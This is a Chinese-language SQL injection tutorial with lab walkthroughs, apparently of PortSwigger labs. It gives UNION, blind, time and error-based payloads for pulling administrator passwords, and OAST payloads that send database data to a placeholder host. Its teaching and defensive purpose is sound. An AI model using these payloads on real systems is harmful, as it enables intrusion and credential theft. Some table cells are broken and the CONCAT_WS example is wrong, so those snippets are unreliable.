# 01S - SQL注入漏洞

## 1. 漏洞本质

SQL 注入的本质是：**应用程序把不可信输入拼接进 SQL 语句，导致用户输入从“数据值”变成了 SQL 语法的一部分**。

正常情况下，用户输入应该只影响某个字段值，例如：

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1;
```

如果 `category` 参数被直接拼接，输入中的引号、注释符、逻辑表达式或子查询就可能改变原本的查询结构。例如：

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1;
```

这里 `--` 将后续条件注释掉，原本用于限制未发布商品的 `AND released = 1` 不再参与执行。这个样例说明的不是“注释符本身很危险”，而是 **应用程序没有区分 SQL 代码与用户数据**。

SQL 注入不只出现在 `SELECT ... WHERE` 中。只要不可信输入进入 SQL 语句，都可能成为注入点，包括：

| 查询位置                  | 风险表现                       |
| --------------------- | -------------------------- |
| `WHERE` 条件            | 绕过筛选、读取隐藏数据、登录绕过           |
| `ORDER BY`            | 改变排序字段，可能进一步推断列数或触发报错      |
| `INSERT` / `UPDATE` 值 | 修改写入语义，影响数据完整性             |
| 表名、列名                 | 参数化查询难以直接覆盖，需要白名单控制        |
| Cookie、JSON、XML 字段    | 输入位置不在 URL 中，但仍可能进入 SQL 查询 |

SQL 注入的核心风险不是“能不能输入payload”，而是后端 SQL 解释器**是否把输入当成了可执行语法**。

---

## 2. 风险成立条件

SQL 注入通常依赖以下条件同时成立：

1. **存在可控输入点**  
   
   输入可以来自 URL 参数、表单字段、Cookie、HTTP Header、JSON、XML、搜索框、排序参数等。

2. **输入进入数据库查询语句**  
   
   并不是所有输入点都和数据库有关。只有输入被用于构造 SQL 查询时，SQL 注入才有成立基础。

3. **查询语句通过字符串拼接或不安全模板生成**  
   
   典型危险写法是：
   
   ```java
   String query = "SELECT * FROM products WHERE category = '" + input + "'";
   ```
   
   这类写法会让输入直接进入 SQL 结构。相比之下，**预编译语句**会把输入作为参数绑定，使其保持数据属性。

4. **缺少有效的参数化、白名单或查询逻辑隔离**  
   
   仅做关键字过滤、转义替换或黑名单拦截，通常不可靠。因为 SQL 上下文不同，数据库方言不同，编码和解析链路也可能不同。

5. **应用响应存在可观察差异**  
   
   SQL 注入不一定直接回显数据。可观察差异可以是页面内容变化、登录状态变化、报错变化、响应时间变化，或者带外网络交互。

### 理解样例：登录绕过

原始查询：

```sql
SELECT * FROM users WHERE username = 'administrator' AND password = '';
```

如果用户名被拼接，输入：

```sql
administrator'--
```

可能使查询变成：

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = '';
```

此时密码条件被注释掉，认证逻辑被破坏。

**适用边界：** 该样例只说明 SQL 语义被改写的机制。实际是否成立取决于登录查询写法、数据库注释语法、输入过滤、参数化使用情况，以及后端是否还存在额外认证校验。

---

## 3. 查询上下文与注入类型

SQL 注入不是单一类型漏洞，而是发生在不同 SQL 上下文中的一类问题。判断 SQL 注入时，应先确认输入处在什么查询上下文，再判断可能改变哪部分语义。

### （1）字符串上下文

字符串上下文通常表现为输入被包在单引号或双引号中：

```sql
WHERE category = '用户输入'
```

这类上下文中，引号闭合、注释符和逻辑条件最常见。典型样例：

```sql
' OR '1'='1
```

它利用的是布尔表达式恒真，而不是某个固定 payload 的神奇效果。

**适用边界：** 不同数据库对注释符、字符串拼接、转义方式存在差异。MySQL 中 `--` 后通常需要空格，`#` 也可作为注释符；Oracle 的子查询经常需要 `FROM dual`。

### （2）数字上下文

数字上下文中，输入可能不会被引号包裹：

```sql
WHERE id = 用户输入
```

此时攻击者不需要闭合字符串，可能直接插入逻辑表达式：

```sql
1 OR 1=1
```

**适用边界：** 如果后端在进入 SQL 前做了严格整数类型转换，输入无法保留 SQL 语法结构，注入风险会大幅下降。

### （3）排序与标识符上下文

某些功能会允许用户控制排序字段：

```sql
ORDER BY 用户输入
```

这类位置通常无法用普通参数化语句直接绑定字段名，因为字段名属于 SQL 标识符，不是数据值。正确做法一般是白名单映射：

**用户输入的参数不再是SQL的一部分，而是查表的键。**

```sql
price  -> ORDER BY price
rating -> ORDER BY rating
```

不能直接把用户提交的 `sort` 参数拼进 SQL。

---

## 4. 显式回显型注入：UNION 与数据提取

当注入查询的结果会出现在 HTTP 响应中时，可以通过 `UNION` 将额外查询结果合并到原查询结果中。`UNION` 注入的关键不是“拼上 UNION 就能查数据”，而是必须满足 SQL 结果集兼容规则：

- 原查询和注入查询返回的**列数一致**；
- 对应列的**数据类型**兼容；
- 注入结果所在列会**被应用渲染**到响应中。

UNION 注入适合结果能回显到页面的场景。它的核心链路不是直接读取数据，而是先确认结果集结构：

```
确认注入点
  ↓
判断原查询列数
  ↓
判断哪些列能承载字符串
  ↓
确认数据库类型
  ↓
查询元数据表
  ↓
定位目标表与列
  ↓
读取目标数据
```

### （1）列数判断

常见判断思路有两类：

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

或：

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

假设注入点位于字符串上下文，例如：

```sql
WHERE category = '用户输入'
```

可以用 `ORDER BY` 判断列数：

| 数据库        | 判断样例             |
| ---------- | ---------------- |
| MySQL      | `' ORDER BY 1--` |
| PostgreSQL | `' ORDER BY 1--` |
| Oracle     | `' ORDER BY 1--` |

然后递增：

```sql
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
```

当索引超过实际列数时，数据库可能报错，或应用响应出现异常。这个异常用于推断原查询返回列数。

也可以用 `UNION SELECT NULL` 判断：

| 假设列数 | MySQL                             | PostgreSQL                        | Oracle                                      |
| ---- | --------------------------------- | --------------------------------- | ------------------------------------------- |
| 1 列  | `' UNION SELECT NULL--`           | `' UNION SELECT NULL--`           | `' UNION SELECT NULL FROM dual--`           |
| 2 列  | `' UNION SELECT NULL,NULL--`      | `' UNION SELECT NULL,NULL--`      | `' UNION SELECT NULL,NULL FROM dual--`      |
| 3 列  | `' UNION SELECT NULL,NULL,NULL--` | `' UNION SELECT NULL,NULL,NULL--` | `' UNION SELECT NULL,NULL,NULL FROM dual--` |

`NULL` 常用于列数判断，是因为它能兼容多数数据类型，从而减少类型不匹配带来的干扰。UNION 本身要求两边查询返回相同数量的列，且对应列类型兼容。

**边界说明：**  

如果应用不回显错误，列数判断可能只能依赖页面内容、状态码、响应长度或功能行为差异。

### （2）文本列判断

确认原查询返回 3 列后，可以逐列测试字符串兼容性：

| 数据库        | 第 1 列测试                                      | 第 2 列测试                                      | 第 3 列测试                                      |
| ---------- | -------------------------------------------- | -------------------------------------------- | -------------------------------------------- |
| MySQL      | `' UNION SELECT 'abc',NULL,NULL--`           | `' UNION SELECT NULL,'abc',NULL--`           | `' UNION SELECT NULL,NULL,'abc'--`           |
| PostgreSQL | `' UNION SELECT 'abc',NULL,NULL--`           | `' UNION SELECT NULL,'abc',NULL--`           | `' UNION SELECT NULL,NULL,'abc'--`           |
| Oracle     | `' UNION SELECT 'abc',NULL,NULL FROM dual--` | `' UNION SELECT NULL,'abc',NULL FROM dual--` | `' UNION SELECT NULL,NULL,'abc' FROM dual--` |

如果某一列能显示 `abc`，说明该列既能承载字符串，又会被应用渲染到响应中。这个列就可以作为后续数据回显位置。

### （3）查询数据库类型与版本

在已经知道有 2 个可回显列的情况下，可以用以下样例判断数据库：

| 数据库        | 版本查询样例                                        |
| ---------- | --------------------------------------------- |
| MySQL      | `' UNION SELECT @@version,NULL--`             |
| PostgreSQL | `' UNION SELECT version(),NULL--`             |
| Oracle     | `' UNION SELECT banner,NULL FROM v$version--` |
| SQL Server | `' UNION SELECT`                              |

**边界说明：**  

版本信息可能被权限或错误处理限制。生产环境不应向前端暴露数据库版本，防护侧应统一错误处理，并限制数据库账号权限。

#### 实验一：查询Oracle数据库的类型和版本



Oracle数据库每一次查询后面都要跟from xxx，比如`from dual`

```sql
'+union+select+BANNER,NULL+from+v$version--
```

其中BANNER，v$version是Oracle特有的。

#### 实验二：查询MySQL和Microsoft数据库的类型和版本



```sql
'+union+select+@@version,NULL--+
# 这里结尾注释符可以用-- 或者#，注意--后面要跟空格，或者--+
```





### （4）查询表名

假设存在 2 个可回显字符串列，可以查询当前用户可见的表信息。

| 数据库        | 表名查询样例                                                                                          |
| ---------- | ----------------------------------------------------------------------------------------------- |
| MySQL      | `' UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema=database()--` |
| PostgreSQL | `' UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema='public'--`   |
| Oracle     | `' UNION SELECT table_name,NULL FROM user_tables--`                                             |

如果靶场中存在用户表，可能会看到类似：

```
users
products
orders
```

这里的关键不是“猜 users 表”，而是通过元数据确认表结构。

OWASP WSTG 对 SQL 注入测试的定义也强调：测试人员需要确认应用是否把用户输入构造成数据库可执行查询，而不是只依赖固定 payload。

### （5）查询列名

定位到表名后，再查询列名。假设目标表为 `users`：

| 数据库        | 列名查询样例                                                                                       |
| ---------- | -------------------------------------------------------------------------------------------- |
| MySQL      | `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users'--` |
| PostgreSQL | `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users'--` |
| Oracle     | `' UNION SELECT column_name,NULL FROM user_tab_columns WHERE table_name='USERS'--`           |

Oracle 默认对象名常以大写形式存储，因此 `USERS` 比 `users` 更常见。

可能看到：

```sql
id
username
password
```

### （6）读取目标数据

如果目标表为 `users`，目标列为 `username`、`password`，可以读取：

| **数据库**        | **拼接操作符/函数**     | **payload 示例 (读取 users 表)**                                            |
| -------------- | ---------------- | ---------------------------------------------------------------------- |
| **MySQL**      | `CONCAT()`       | `' UNION SELECT NULL, CONCAT_WS(username, ':', password) FROM users--` |
| **PostgreSQL** | `\|              | `                                                                      |
| **MSSQL**      | `+` (或 `CONCAT`) | `' UNION SELECT NULL, username + ':' + password FROM users--`          |
| **Oracle**     | `\|              | `                                                                      |

#### 实验三：列出非Oracle数据库的数据



第一步，判断列数为两列。

```sql
'+order+by+2--+
'+order+by+3--+
```



第二步，确定两列均为字符型数据。

```sql
'+union+select+'abc','ab'--+
```



第三步，查询表名。找到表名`users_xxxx`

```sql
'+union+select+table_name,NULL+from+information_schema.tables--+
```



第四步，查询列名。`password_xxx`和`username_xxx`

```sql
'+union+select+column_name,NULL+from+information_schema.columns
+where+table_name='users_jokhnz'--+
```



第五步，查询数据。得到帐户密码，登录即可。

```sql
'+union+select+username_lkmtqt,password_ntkmrl+from+users_jokhnz--+
```



#### 实验四：列出Oracle数据库的数据



Oracle数据库较为严苛，数据类型和列对应必须正确。并且没有information_schema，但是有all_tables、user_tab_columns

第一步，判断列数以及对应的数据类型。确定有两列，并且都是字符型。

```sql
'+order+by+2--
'+order+by+3--

'+union+select+NULL,NULL+from+dual--
'+union+select+'abc','def'+from+dual--
```




第二步，查询表名。找到表名`USER_XXX`。Oracle字段名一般为大写。

```sql
'+union+select+table_name,NULL+from+all_tables--
```



第三步，查询列名。找到账号和密码字段。

```sql
'+union+select+column_name,NULL+from+user_tab_columns
+where+table_name='USERS_RHBFYX'--
```





第四步，查询数据。拿到管理员账户。登录即可。

```sql
'+union+select+USERNAME_LVUAOM,PASSWORD_IUICSL+from+USERS_RHBFYX--
```



#### 实验五：从单个列中获取多个值



默认两列，但是仔细斟酌一下数据类型。

第一步，判断两列的数据类型。

```sql
# 错误：
'+union+select+'abc','bcd'--+ 
'+union+select+'abc',NULL--+ 
# 正确：
'+union+select+NULL,'abc'--+ 
```



第二步，查询username和password。

```sql
'+union+select+NULL,username||':'||password+from+users--
```



#### 实验十：可见的基于错误的SQL注入



可见的包含错误回显的注入，其实并不算盲注。

第一步，尝试闭合，发现有错误回显。

```sql
'
'--
```



第二步，构造布尔条件。

```sql
' and cast((select 1) as int)--
```

报错and后面必须跟布尔型的条件，那么就判断1=cast()



```sql
' and 1=cast((select 1) as int)--
```

此时不再报错。

```sql
' and 1=cast((select username from users) as int)--
```

报错原因cookie过长。



修改TrackingId的值。

```sql
TrackingId=' and 1=cast((select username from users) as int)--
```



此时报错只能返回一行，修改为：

```sql
TrackingId=' and 1=cast((select username from users limit 1) as int)--
```



此时返回用户名administrator

第三步，取密码

```sql
TrackingId=' and 1=cast((select password from users limit 1) as int)--
```



---

## 5. 盲注：没有直接回显时的信息推断

| Lab                        | 本质分类    | 观察信号                         | 目标                    | 你应该怎么理解              |
| -------------------------- | ------- | ---------------------------- | --------------------- | -------------------- |
| **带有条件响应的盲注 SQL 注入**       | 布尔盲注    | 页面是否出现某个内容，例如 `Welcome back` | 通过真假条件逐步推断数据          | 最标准的布尔盲注             |
| **带有条件错误的盲注 SQL 注入**       | 报错盲注    | 条件成立时触发错误，条件不成立时不报错          | 用“是否报错”当 True / False | 仍然是盲注，因为错误不直接泄露数据    |
| **可见的基于错误的 SQL 注入**        | 错误回显型注入 | 详细错误信息直接暴露 SQL 或查询结果         | 利用 verbose error 泄露数据 | 不是纯盲注，更像“错误信息把盲注变可见” |
| **带有时间延迟的盲注 SQL 注入**       | 时间盲注检测  | 响应是否延迟                       | 只证明注入点可触发数据库延迟        | 只做漏洞确认，不要求取数据        |
| **利用时间延迟和信息检索进行盲注 SQL 注入** | 时间盲注利用  | 条件成立则延迟，否则不延迟                | 通过延迟逐位推断密码            | 时间盲注的完整利用版           |

盲注是指应用存在 SQL 注入，但响应中不直接返回查询结果，也不一定显示数据库错误。此时信息获取依赖“可观察差异”。

盲注的核心是把未知信息转化为一系列可判断的条件。例如：

```sql
AND '1'='1
AND '1'='2
```

如果两次响应不同，就说明后端查询结果影响了页面行为。之后可以构造关于数据的条件，例如判断某个字符是否等于指定值、某个长度是否大于指定数值。

盲注的共同点是：**查询结果不直接回显，但 SQL 执行结果仍然通过其他侧信道影响响应**。盲注不是低级技巧，而是 SQL 注入里最能体现“条件推断能力”的部分。

### （1）布尔盲注：通过页面差异判断真假

布尔盲注依赖应用对“查询是否返回结果”产生不同响应。例如页面中是否出现 `Welcome back`、商品数量是否变化、响应长度是否稳定变化。

基础判断：

| 数据库        | 真条件               | 假条件               |
| ---------- | ----------------- | ----------------- |
| MySQL      | `' AND '1'='1'--` | `' AND '1'='2'--` |
| PostgreSQL | `' AND '1'='1'--` | `' AND '1'='2'--` |
| Oracle     | `' AND '1'='1'--` | `' AND '1'='2'--` |

确认存在布尔差异后，可以判断表是否存在：

| 数据库        | 判断 `users` 表是否存在                                     |
| ---------- | ---------------------------------------------------- |
| MySQL      | `' AND (SELECT 'a' FROM users LIMIT 1)='a'--`        |
| PostgreSQL | `' AND (SELECT 'a' FROM users LIMIT 1)='a'--`        |
| Oracle     | `' AND (SELECT 'a' FROM users WHERE ROWNUM=1)='a'--` |

判断用户是否存在：

| 数据库        | 判断 `administrator` 是否存在                                                           |
| ---------- | --------------------------------------------------------------------------------- |
| MySQL      | `' AND (SELECT 'a' FROM users WHERE username='administrator' LIMIT 1)='a'--`      |
| PostgreSQL | `' AND (SELECT 'a' FROM users WHERE username='administrator' LIMIT 1)='a'--`      |
| Oracle     | `' AND (SELECT 'a' FROM users WHERE username='administrator' AND ROWNUM=1)='a'--` |

判断密码长度：

| 数据库        | 判断长度是否大于 10                                                                      |
| ---------- | -------------------------------------------------------------------------------- |
| MySQL      | `' AND (SELECT LENGTH(password) FROM users WHERE username='administrator')>10--` |
| PostgreSQL | `' AND (SELECT LENGTH(password) FROM users WHERE username='administrator')>10--` |
| Oracle     | `' AND (SELECT LENGTH(password) FROM users WHERE username='administrator')>10--` |

判断某一位字符：

| 数据库        | 判断第 1 位是否为 `a`                                                                           |
| ---------- | ---------------------------------------------------------------------------------------- |
| MySQL      | `' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a'--` |
| PostgreSQL | `' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a'--` |
| Oracle     | `' AND SUBSTR((SELECT password FROM users WHERE username='administrator'),1,1)='a'--`    |

**机制解释：**  

布尔盲注的本质是把未知数据拆成多个真假命题。每次只判断一个条件，根据页面差异逐步恢复信息。

**误判点：**

- 页面本身动态内容太多，响应长度差异不稳定；
- 查询结果被缓存；
- 多个条件同时影响页面；
- 字符集范围假设错误；
- 数据库大小写敏感规则不同。

#### 实验六：布尔盲注-带有条件响应的盲注



这个lab注入点在Cookie的TrackingId参数。

第一步，确定是否存在布尔条件影响查询结果。



```sql
' and '1'='1
```



```sql
' and '1'='2
```


可见参数值被后端当做SQL语句执行了。

第二步，验证表名users和用户administrator是否存在。



```sql
' and (select 'a' from users LIMIT 1)='a
' and (select 'a' from users where username='administrator')='a
```



第三步，确定administrator密码的字符数

```sql
' and (select 'a' from users where username='administrator' 
and length(password)>1)='a
```

更改密码长度，最后确定密码长度为20位。

第四步，确定administrator密码。

```sql
' and substring((select password from users where 
username='administrator'),1,1)='$a$
```

用Intruder爆破密码，其中第一个位置，1-20简单列表，第二个位置，a-z和0-9。



在Grep-Match里匹配`Welcome back`，开始攻击，找到有关键字的部分。

第五步，拿到密码，直接登录即可。

### （2）时间盲注：通过响应延迟判断真假

时间盲注适合页面内容无差异、错误也不可见的情况。它利用数据库同步执行查询的特点：SQL 执行被延迟，HTTP 响应也会变慢。

基础延迟：

| 数据库        | 延迟样例                                                                            |
| ---------- | ------------------------------------------------------------------------------- |
| MySQL      | `' AND SLEEP(5)--`                                                              |
| PostgreSQL | `'; SELECT pg_sleep(5)--`                                                       |
| Oracle     | `' AND 1=(SELECT CASE WHEN 1=1 THEN DBMS_LOCK.SLEEP(5) ELSE 1 END FROM dual)--` |

条件延迟：

| 数据库        | 判断第 1 位是否为 `a`                                                                                                                                          |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------- |
| MySQL      | `' AND IF(SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a',SLEEP(5),0)--`                                                 |
| PostgreSQL | `'; SELECT CASE WHEN SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a' THEN pg_sleep(5) ELSE pg_sleep(0) END--`            |
| Oracle     | `' AND 1=(SELECT CASE WHEN SUBSTR((SELECT password FROM users WHERE username='administrator'),1,1)='a' THEN DBMS_LOCK.SLEEP(5) ELSE 1 END FROM dual)--` |

PostgreSQL 官方文档说明 `pg_sleep` 会让当前会话进程休眠指定秒数；MySQL 文档也说明 `SLEEP(seconds)` 会暂停指定秒数并返回 0。

**误判点：**

- 网络抖动；
- 服务器负载波动；
- WAF、代理、CDN 引入额外延迟；
- 并发请求导致时间测量不稳定；
- 延迟时间过短导致真假难分；
- 延迟时间过长会拖慢测试并影响服务。

时间盲注不要“看到慢就是漏洞”。更准确的说法是：在多次对照请求中，真条件稳定触发显著延迟，假条件稳定无延迟，且能排除网络和服务端负载干扰时，才可以认为时间侧信道成立。

#### 实验七：带有时间延迟的盲注SQLi



```sql
'||pg_sleep(10)--
```

暂停10s返回结果，证明可以通过时间延迟来进行盲注SQL注入。

#### 实验八：利用时间延迟和信息检索进行盲注SQLi



一般情况下，时间盲注是最后选择，因为耗费的时间太长，所以这里使用5s确认即可。postgreSQL

第一步，通过验证是否5s内响应，判断有无时间盲注入口。

```sql
x'%3Bselect+case+when+(1=1)+then+pg_sleep(5)+else+pg_sleep(0)+end--


x'%3Bselect+case+when+(1=2)+then+pg_sleep(5)+else+pg_sleep(0)+end--
```

改成1=2后，没有时间延迟，确认有盲注。

第二步，判断administrator用户是否存在

```sql
x'%3Bselect+case+when+(username='administrator')+then+pg_sleep(5)+
else+pg_sleep(0)+end+from+users--
```

延迟5s，确认存在。

第三步，判断密码长度。

```sql
x'%3Bselect+case+when+(username='administrator'+and+length(password)
>1)+then+pg_sleep(5)+else+pg_sleep(0)+end+from+users--

x'%3Bselect+case+when+(username='administrator'+and+length(password)
>20)+then+pg_sleep(5)+else+pg_sleep(0)+end+from+users--
```

最后确定密码长度为20

第四步，判断密码各个位置的字符。

```sql
x'%3Bselect+case+when+(username='administrator'+and+substring(password
,1,1)='a')+then+pg_sleep(5)+else+pg_sleep(0)+end+from+users--
```

发送给Intruder，接着在第一个1的位置和a的位置放置$$，选择集束炸弹，1的范围是1-20，a的范围是0-9,a-z。

线程池里选择1线程，在结果里面找到延迟4000ms以上的，不一定是4000，但是通过排序找到延迟明显过大的部分。

### （3）条件错误盲注：通过是否报错判断真假

错误盲注适合页面内容不随真假变化，但数据库错误能影响响应的场景。核心思路是：**条件为真时触发错误，条件为假时返回正常表达式**。

通用逻辑：

```sql
CASE WHEN 条件成立 THEN 触发错误 ELSE 正常值 END
```

示例：

| 数据库        | 条件错误样例                                                                                                                                    |
| ---------- | ----------------------------------------------------------------------------------------------------------------------------------------- |
| MySQL      | `' AND IF(SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a',1/0,1)--`                                        |
| PostgreSQL | `' AND CASE WHEN SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a' THEN CAST('x' AS integer) ELSE 1 END=1--` |
| Oracle     | `' AND CASE WHEN SUBSTR((SELECT password FROM users WHERE username='administrator'),1,1)='a' THEN TO_CHAR(1/0) ELSE '1' END='1'--`        |

**机制解释：**  

如果第一个字符是 `a`，表达式触发数据库错误；如果不是，则表达式正常执行。应用若把错误映射成 500、错误页或响应差异，就可以据此判断条件真假。

**适用边界：**

- 数据库错误必须能影响响应；
- 应用不能完全吞掉异常；
- 不同数据库对 `CASE`、类型转换、除零错误处理不同；
- 某些数据库优化器可能不会执行未被使用的表达式，导致预期错误不触发。

#### 实验九：带有条件错误的盲注SQLi



第一步，首先用单引号闭合，观察后端是否执行注入的SQL语句。

未闭合时报错



两个单引号闭合，结果正常未报错。

第二步，确认数据库类型。

```sql
'||(select '')||'    # 报错

'||(select '' from dual)||'     # 正常页面

'||(select '' from false-table)||'     # 不存在的表，返回错误
```



数据库为Oracle。并且发现可以通过判断页面是否正常来进行报错盲注。

第三步，回显一行数据，判断表users存在。

```sql
'||(select '' from users where ROWNUM = 1)||'
```

第四步，利用条件判断。

```sql
'||(select case when (1=1) then to_char(1/0) else '' end 
from dual)||'

'||(select case when (1=2) then to_char(1/0) else '' end 
from dual)||'
```





第一个返回出错，第二个正常，证明条件判断可行。

第五步，判断用户名

```sql
'||(select case when (1=1) then to_char(1/0) else '' end 
from users where username='administrator')||'
```

总的条件为真（报错），用户名存在。



第六步，判断密码的长度

```sql
'||(select case when length(password)>1 then to_char(1/0) else '' end 
from users where username='administrator')||'
```

不断增加长度，得到密码长度为20。

第七步，判断密码字符

```sql
'||(select case when substr(password,1,1)='a' then to_char(1/0) else '' end 
from users where username='administrator')||'
```

此攻击使用`SUBSTR()`函数从密码中提取单个字符，并将其与特定值进行比较。我们的攻击将遍历每个位置和可能的值，依次进行测试。

将第一个参数1和字符a的位置加上$$，发送到Intruder中，前者范围为为1-20，后者范围为0-9、a-z。选择集束炸弹选项。

开始攻击后，找到HTTP状态码为500，拼凑密码。

---

## 6. OAST带外通道的注入：异步和无回显场景

OAST 适合最难观察的一类 SQL 注入：应用响应不显示查询结果、不显示错误、不产生时间差异，甚至 SQL 查询是异步执行的。此时只能通过数据库或应用服务器对外部受控服务产生 DNS / HTTP 交互来确认执行路径。

PortSwigger 对盲注的定义强调，盲注场景下响应不包含查询结果或错误详情；而 OAST 正是解决“响应侧完全不可观察”的一类技术。

### 6.1 OAST 的判断链路

```
可控输入进入 SQL 查询
  ↓
注入语句尝试触发外联
  ↓
外部受控服务收到 DNS / HTTP 请求
  ↓
确认 SQL 表达式被执行
  ↓
可进一步把少量判断结果编码进子域名
```

### 6.2 OAST 与普通盲注的区别

| 类型   | 观察依据          | 适用场景        | 主要限制       |
| ---- | ------------- | ----------- | ---------- |
| 布尔盲注 | 页面内容差异        | 查询结果影响页面逻辑  | 页面必须有稳定差异  |
| 错误盲注 | 错误页 / 状态码     | 错误未完全隐藏     | 错误必须可观察    |
| 时间盲注 | 响应延迟          | 同步 SQL 执行   | 易受网络波动影响   |
| OAST | DNS / HTTP 外联 | 异步、无回显、无时间差 | 目标环境必须允许外联 |

### 6.3 OAST payload

| **数据库**        | **常用函数/方法**        | **协议** | **适用平台/前提**                       | **Payload 示例 (以外带 user() 为例)**                                                                                                |
| -------------- | ------------------ | ------ | --------------------------------- | ----------------------------------------------------------------------------------------------------------------------------- |
| **SQL Server** | `xp_dirtree`       | UNC    | Windows                           | `DECLARE @data varchar(max);SELECT @data=user_name();EXEC('master..xp_dirtree "\\' + @data + '.your-oast.com\a"')`            |
| **MySQL**      | `LOAD_FILE()`      | UNC    | Windows (需 `secure_file_priv` 为空) | `SELECT LOAD_FILE(CONCAT('\\\\', (SELECT user()), '.your-oast.com\\a'))`                                                      |
| **Oracle**     | `UTL_HTTP.request` | HTTP   | 需要外连权限 (ACLs)                     | `SELECT UTL_HTTP.request('http://'\|(SELECT user FROM dual)\|'.your-oast.com') FROM dual`                                     |
| **Oracle**     | `UTL_INADDR`       | DNS    | 常用，无需特定 ACL                       | `SELECT UTL_INADDR.get_host_address((SELECT user FROM dual)\|'.your-oast.com') FROM dual`                                     |
| **PostgreSQL** | `dblink`           | TCP    | 需安装 `dblink` 扩展                   | `SELECT * FROM dblink('host='\|(select user)\|'.your-oast.com user=a password=b dbname=c', 'SELECT 1') RETURNS (ret integer)` |

**机制解释：**  

如果数据库服务器尝试解析该 UNC 路径，就可能产生 DNS 查询。测试者通过受控 OAST 服务看到查询记录，从而确认 SQL 表达式被执行。

**边界说明：**

- 该样例高度依赖 SQL Server、Windows 网络解析、数据库权限和出网策略；
- 不适用于 MySQL、PostgreSQL、Oracle 的通用判断；

### 6.4 不同数据库下的OAST

#### （1）SQL Server：UNC 路径触发型

SQL Server 在 OAST 场景里常见，是因为它运行在 Windows 环境时，某些文件路径相关函数或扩展过程会尝试访问 UNC 路径：

```
\\host\share
```

一旦 Windows 尝试解析 `host`，就可能触发 DNS 查询，甚至后续 SMB/NetBIOS 相关流量。

##### xp_dirtree / xp_fileexist

这类过程的共同点是：**它们本来用于文件系统相关操作，但参数如果是 UNC 路径，Windows 会尝试解析远程主机名。**

```sql
EXEC master..xp_dirtree '\\<marker>.<oast-domain>\share'
or
EXEC master..xp_fileexist '\\<marker>.<oast-domain>\file'
```

机制不是 SQL Server “主动做 DNS 外带”，而是：

```
SQL Server 接收 UNC 路径
↓
Windows 文件访问 API 处理路径
↓
系统解析 UNC 主机名
↓
产生 DNS / SMB 相关网络行为
```

所以审计时要看三个点：

| 审计点                      | 说明                               |
| ------------------------ | -------------------------------- |
| SQL Server 是否在 Windows 上 | Linux 版 SQL Server 不适用同样的 UNC 机制 |
| SQL Server 服务账号权限        | 文件访问行为取决于服务账号上下文                 |
| 扩展过程是否存在且可执行             | 某些环境禁用、收紧或云数据库不支持                |

`xp_fileexist` 这类扩展过程属于未文档化或不建议依赖的能力，Microsoft 社区回答里也明确不推荐用未文档化扩展过程做文件操作，因为它们不是面向普通用户使用的稳定接口。

##### fn_trace_gettable

`fn_trace_gettable` 是 SQL Server 的系统函数，用于从 trace 文件读取内容并以表形式返回。Microsoft 文档说明它接收 trace 文件名作为参数，且需要 `ALTER TRACE` 权限；同时该功能未来会被移除，建议使用 Extended Events。

它的 OAST 触发逻辑是：

```
函数尝试打开 trace 文件
↓
文件名如果是 UNC 路径
↓
Windows 尝试解析远程主机
↓
触发 DNS / SMB 访问
```

抽象样例：

```sql
SELECT * 
FROM fn_trace_gettable('\\<marker>.<oast-domain>\1.trc', DEFAULT)
```

这个点比 `xp_dirtree` 更“隐蔽”一些，因为它不是 `xp_` 扩展过程，而是系统函数。但它的门槛也更明显：**需要 ALTER TRACE 权限**。这在真实审计里是非常关键的判断条件，不要只看 payload 形式。

如果 xp_cmdshell 不可用，可能与 SQL Server 配置项有关，可由 sysadmin 通过 sp_configure 控制。

但 xp_dirtree、xp_fileexist 这类能力不应简单归因于 show advanced options；它们更多取决于版本、环境、权限、过程是否存在以及是否被安全策略限制。

#### （2）MySQL: Windows + FILE 权限 + secure_file_priv

MySQL 的 OAST 比 SQL Server 更挑环境。核心原因是：MySQL 本身没有像 Oracle 那样丰富的网络访问包，常见 OAST 主要依赖 **Windows 下 UNC 路径解析**。

MySQL OAST 不应默认成立。它强依赖 Windows UNC 解析、FILE 权限、LOAD_FILE 可用性和 secure_file_priv 配置。

典型机制是：

```
LOAD_FILE() 尝试读取文件
↓
文件路径写成 UNC
↓
Windows 尝试解析远程主机名
↓
产生 DNS 查询
```

抽象形式：

```sql
SELECT LOAD_FILE('\\\\<marker>.<oast-domain>\\a')
```

##### <1> FILE 权限是前置条件

MySQL 官方文档说明，`FILE` 权限允许用户通过 `LOAD DATA`、`SELECT ... INTO OUTFILE` 和 `LOAD_FILE()` 读取/写入服务器主机上的文件；具有该权限的用户可以读取 MySQL 服务端可读的文件。

所以审计判断链应该是：

```
是否 Windows
↓
当前数据库用户是否有 FILE 权限
↓
LOAD_FILE 是否可用
↓
secure_file_priv 是否限制路径
↓
出网 DNS 是否允许
```

##### <2> secure_file_priv 的影响

`secure_file_priv` 是 MySQL 用来限制导入导出文件操作影响范围的安全变量。官方文档说明它会限制 `LOAD DATA`、`SELECT ... INTO OUTFILE`、`LOAD_FILE()` 等文件操作；如果为空字符串则不限制，如果设置为目录则只允许该目录，如果为 `NULL` 则禁用导入导出操作。

这意味着：

| secure_file_priv 状态 | 对 OAST 的影响                 |
| ------------------- | -------------------------- |
| 空字符串                | 文件操作限制弱，UNC 更可能被尝试         |
| 指定目录                | `LOAD_FILE()` 访问 UNC 大概率失败 |
| `NULL`              | 文件导入导出类操作被禁用               |
| 未知                  | 需要先确认变量值和权限                |

##### <3> DNS 缓存问题

